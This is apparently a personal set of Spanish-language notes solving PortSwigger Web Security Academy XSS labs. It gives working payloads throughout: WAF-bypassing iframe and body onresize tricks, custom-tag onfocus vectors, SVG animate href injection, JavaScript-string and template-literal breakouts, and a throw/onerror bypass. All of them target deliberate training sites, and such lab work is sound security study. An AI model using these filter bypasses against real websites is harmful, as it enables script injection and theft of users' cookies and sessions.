


# Laboratories XSS content

## Lab: Reflected XSS into HTML context with most tags and attributes blocked

This lab contains a reflected XSS vulnerability in the search functionality but uses a web application firewall (WAF) to protect against common XSS vectors.

To solve the lab, perform a cross-site scripting attack that bypasses the WAF and calls the print() function.

>Your solution must not require any user interaction. Manually causing print() to be called in your own browser will not solve the lab.


1. Analizamos la web con dom invader y no vemos nada
2. Aunque nos dice que no requiere la acción de usuario lo normal sería probar diferentes cosas , en este caso en el search y en los comentarios. Aunque hemos visto el laboratorio de explotacion y habrá que hacerlo a través de allí, me gusta seguir una metodología.


3. probamos mandar por la url el alert en el search


No está permitido por lo que haremos un fuzzing.

4. Vamos a usar la petición de search y la enviamos a intruder. Ponemos entre <> dos simbolos para crear una posición de payload, además se ve claramente que si pongo solo una se selecciona todo.


Copiamos nuestros tag xxs. Si no los tienes se pueden copiar de [aquí](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet) y lo pegamos en payloads. Luego atacamos

La etiqueta body devuelve 200


5. Vamos a ver que tipo de evento se podrían ejecutar, por lo que haremos otro ataque desde el search pero ahora añadiremos body
```html
<body%20§§=1>
```
Vemos que el onresize se ejecuta 



Comprobamos que exite el payload


6. Arreglar nuestro payload standar para que funcione para nuestro caso
   
```html
<iframe src="https://vulnerable-website.com#" onload="this.src+=''"></iframe>

<iframe src="https://0aca00d80333b2fbc06d84c5002a007f.web-security-academy.net/?search="><body onresize=print()>"></iframe>

<!--lo encodeamos-->

<iframe src="https://0aca00d80333b2fbc06d84c5002a007f.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=print()%3E"></iframe>

```
Si ponemos la url del search en nuestra url y luego hacemos resize vemos que se ejecuta el print()


7. Ponemos nuestro código iframe en el servidor de explotación y lo enviamos. Pero aunque hemos visto que funciona la url, el iframe no lo está resolviendo.

Miramos en el servidor de exploración y aparece el iframe sin problemas pero es que no me deja resizear 


Voy a ver como puedo añadir algo para que funcione 

8. Según dice la nota del ejercicio not require any user interaction. por lo que tendremos que resizear automaticamente de alguna manera. Para eso hay que usar el onload usando el this.style.height


```html
<iframe src="https://0aca00d80333b2fbc06d84c5002a007f.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.height='100px'></iframe>
```


## lab Reflected XSS into HTML context with all tags blocked except custom ones

This lab blocks all HTML tags except custom ones.

To solve the lab, perform a cross-site scripting attack that injects a custom tag and automatically alerts document.cookie.

Nos dice que no está permitido


Se me viene a la cabeza poner una etiqueta cual sea. Lo pruebo y funciona, se envía y devuelve 200

Una vez tengo una etiqueta cualquiera la idea que cuando haga focus lance el alert con el document.cookie



1.He decidido ir a intruder y pegar los payloads que tengo en la lista.

De entre todos he filtrado por 200 y he estado echando un vistazo. Hay muchos y me han dado basantes ideas. Creo que el más fácil es usar que cuando un elemento esté focuseado se lance algo. Por lo cual he filtrado por onfocus.

```html
<xss id=x tabindex=1 onfocus=alert(1)></xss>
```


La request es esta y efectivamente no la descarta por no estar permitida el tag.


Cambiamos el alert 1 por document.cookie
```html
/?search=<%3cxss%20id%3dx%20tabindex%3d1%20onfocus%3dalert(document.cookie)%3e%3c%2fxss%3e>
```
Vale se lanza pero no hace nada. eso es porque hay que ir hasta su etiqueta. Digamos que estamos haciendo un ancla que cuando lo llamemos coja y se focuse ... Sabemos que las llamadas a los anclas son con **#nombreancla** . En este caso se llama la id según el payload x , pero se podría haber llamado "lo que sea" por lo cual será la url seguido de #x . Voy a probar esto en el script usando mi url

Mirando los colores obviamente algo está mal, no ereconoce una url como una acción. Para ir a alguna página hay que usar el location
```js
<script>
    https://0a2000f5049062c3c00f1455005d00c2.web-security-academy.net/?search=<%3cxss%20id%3dx%20tabindex%3d1%20onfocus%3dalert(document.cookie)%3e%3c%2fxss%3e>#x
    </script>
```
usando location

```js
<script>
    location='https://0a2000f5049062c3c00f1455005d00c2.web-security-academy.net/?search=<%3cxss%20id%3dx%20tabindex%3d1%20onfocus%3dalert(document.cookie)%3e%3c%2fxss%3e>#x';
    </script>
```


## Lab Expert: Reflected XSS with event handlers and href attributes blocked

This lab contains a reflected XSS vulnerability with some whitelisted tags, but all events and anchor href attributes are blocked..

To solve the lab, perform a cross-site scripting attack that injects a vector that, when clicked, calls the alert function.

Note that you need to label your vector with the word "Click" in order to induce the simulated lab user to click your vector. For example:

<a href="">Click me</a>

- whitelisted tags
- all events and anchor href attributes are blocked..
- ross-site scripting attack that injects a vector that, when clicked, calls the alert function.


Podemos usar animate image svg y title

Buscamos en google 


```html
<svg><animate xlink:href=#xss attributeName=href dur=5s repeatCount=indefinite keytimes=0;0;1 values="https://portswigger.net?&semi;javascript:alert(1)&semi;0" /><a id=xss><text x=20 y=20>XSS</text></a>
```

Lo modificamos a nuestras necesidades. Hay que tener en cuenta que no disponemos de laboratorio de explotacion por lo cual tiene que ir en nuestra url...
```html
https://0a5c00aa04ed4850c06219c6003200b6.web-security-academy.net/?search=<svg><a><animate attributeName=href values=javascript:alert(1) /><text x=20 y=20>Click me</text></a>
```


## Lab: Reflected XSS with some SVG markup allowed
This lab has a simple reflected XSS vulnerability. The site is blocking common tags but misses some SVG tags and events.

To solve the lab, perform a cross-site scripting attack that calls the alert() function.


- Nos da la pista tags and events.
- call alert()

Lo básico, probamos el script en la url pero nos da como que el tag no está permitido.


Como siempre, vamos a buscar en el search con intruder y los tag, luego evento etc... hasta que podamos poner un alert()

tag --> animatetransofrm, image , svg, title


Dentro de nuestros payloads, cuando busco ```<animatetransform>``` nos salen
```html
<svg><animatetransform onbegin=alert(1) attributeName=transform>
<svg><animatetransform onend=alert(1) attributeName=transform dur=1s>
<svg><animatetransform onrepeat=alert(1) attributeName=transform 
```

De todas formas voy a intentar encontrar el payload de evento para que me diga cual de las 3 es la correcta, aunque en este caso podríamos hacerlo directamente.

Ahora ya sabemos la posición del evento por lo que lo que en intruder usamos esa posicion
```html
<svg><animatetransform%20§§=1>
```

Efectivamente lo teniamos con el onbegin


El payload es este
```html
<svg><animatetransform onbegin=alert(1) attributeName=transform>
```
No hace falta ni encodearlo, lo ponemos en el buscador y el se encarga


## Lab: Reflected XSS into attribute with angle brackets HTML-encoded

This lab contains a reflected cross-site scripting vulnerability in the search blog functionality where angle brackets are HTML-encoded. To solve this lab, perform a cross-site scripting attack that injects an attribute and calls the alert function.

He utilizado onfocus, pero aunque funciona perfectamente el xss, no lo valida el laboratorio por lo que voy a ver directamente la solución porque no voy a perder más tiempo sabiendo que funciona.

Usamos el modo cerrando comillas y luego abriendo que nos dan en los apuntes para cuando existe este problema donde está encodeado el angle brackets

" autofocus onfocus=alert(document.domain) x="


```html
https://0a91008b0385df63c2f51a6e00b900a5.web-security-academy.net/?search=%22onfocus%3D%22alert%281%29
```

Era onmouseover el que a ellos le ha gustado XD

```html
https://0a91008b0385df63c2f51a6e00b900a5.web-security-academy.net/?search=%22onmouseover%3D%22alert%281%29
```


## Lab: Stored XSS into anchor href attribute with double quotes HTML-encoded

This lab contains a stored cross-site scripting vulnerability in the comment functionality. To solve this lab, submit a comment that calls the alert function when the comment author name is clicked.

-añadir comentario
-alert cuando le de a click

Cuando le da click lo que hace es ir a la website que has puesto en el comentario

Añadimos 
```javascript:alert(1)``` en el sitio de la website para que se ponga en lugar del ahref.. esto obviamente es que no está controlado... 


## Lab: Reflected XSS in canonical link tag

This lab reflects user input in a canonical link tag and escapes angle brackets.

To solve the lab, perform a cross-site scripting attack on the home page that injects an attribute that calls the alert function.

To assist with your exploit, you can assume that the simulated user will press the following key combinations:

ALT+SHIFT+X
CTRL+ALT+X
Alt+X

Please note that the intended solution to this lab is only possible in Chrome.

Tenemos que añadir accesskey=alt+x onclick=alert(1)

No sabía muy bien como poner el alt+x por lo que en el laboratorio he cogido y he mandado &accesskey=''onclick%3d'alert(1) En un post... y ha funcionado


# XSS en JavaScript


## Lab: Reflected XSS into a JavaScript string with single quote and backslash escaped

This lab contains a reflected cross-site scripting vulnerability in the search query tracking functionality. The reflection occurs inside a JavaScript string with single quotes and backslashes escaped.

To solve this lab, perform a cross-site scripting attack that breaks out of the JavaScript string and calls the alert function.

Cerramos el script y llamamos con img=1 a la funcion onload alert()

## Lab: Reflected XSS into a JavaScript string with angle brackets HTML encoded

This lab contains a reflected cross-site scripting vulnerability in the search query tracking functionality where angle brackets are encoded. The reflection occurs inside a JavaScript string. To solve this lab, perform a cross-site scripting attack that breaks out of the JavaScript string and calls the alert function.


Tenemos que cerrar la cadena : Usamos ```';alert(document.domain)//```para cerrar la cadena y comentar el resto


## Lab: Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped

This lab contains a reflected cross-site scripting vulnerability in the search query tracking functionality where angle brackets and double are HTML encoded and single quotes are escaped.

To solve this lab, perform a cross-site scripting attack that breaks out of the JavaScript string and calls the alert function.

Si ponemos directamente ```';alert()//```nos escapa con barra invertida


Tenemos que usar las barras invertidas para que se autoanulen.


## Lab (expert): Reflected XSS in a JavaScript URL with some characters blocked

This lab reflects your input in a JavaScript URL, but all is not as it seems. This initially seems like a trivial challenge; however, the application is blocking some characters in an attempt to prevent XSS attacks.

To solve the lab, perform a cross-site scripting attack that calls the alert function with the string 1337 contained somewhere in the alert message.

- Necesitamos que se ejecute un alert con la cadena 1337 .

Es muy importante la fase de reconocimiento puesto que por ejemplo aquí me costó encontrar este javascript


Analicemos
```js
<a href="javascript:fetch('/analytics', {method:'post',body:'/post%3fpostId%3d5'}).finally(_ => window.location = '/')">
```


```js
2&'},x=x=>{throw/**/onerror=alert,1337},toString=x,window+'',{x:'


/post?postId=2&'},x=x=>{throw/**/onerror=alert,1337},toString=x,window%2b'',{x:'
```

El laboratorio se resolverá, pero la alerta solo se activará si hace clic en "Volver al blog" en la parte inferior de la página.

El exploit utiliza el manejo de excepciones para llamar a la función alert con argumentos. 

La declaracion throw se usa, separada con un comentario en blanco para sortear la restricción sin espacios. 

La funcion alert se asigna al controlador de excepciones onerror.

Como **throw** es una declaración, no se puede usar como una expresión. 

Necesitamos usar funciones de flecha para crear un bloque para que throw se pueda usar la declaración. 

Luego, debemos llamar a esta función, por lo que la asignamos a la propiedad toString y activamos esto forzando una conversión de cadena en window.

# Making use of HTML-encoding

## Lab: Stored XSS into onclick event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped

This lab contains a stored cross-site scripting vulnerability in the comment functionality.

To solve this lab, submit a comment that calls the alert function when the comment author name is clicked.

- lanzar alert cuando se le de click al author

Tenemos el enlace url para poder usar y haga click. si intentas meter alfanumérico no funciona.

Si intentas usar el ';alert(1)// tampoco funciona

Usamos el ```&apos;-alert(1)-&apos;``` de los apuntes. El problema es que al meterlo nos pide una url por lo que ponemos en url ```http://cualquiercosa?&apos;-alert(1)-&apos;```


# XSS in JavaScript template literals

## Lab: Reflected XSS into a template literal with angle brackets, single, double quotes, backslash and backticks Unicode-escaped

This lab contains a reflected cross-site scripting vulnerability in the search blog functionality. The reflection occurs inside a template string with angle brackets, single, and double quotes HTML encoded, and backticks escaped. To solve this lab, perform a cross-site scripting attack that calls the alert function inside the template string.

Nos dice que el problema está en el string 


```
${alert(document.domain)}
```
Primero cerramos
```js
'${alert(document.domain)}
```
Codificamos en url


%27%24%7b%61%6c%65%72%74%28%64%6f%63%75%6d%65%6e%74%2e%64%6f%6d%61%69%6e%29%7d


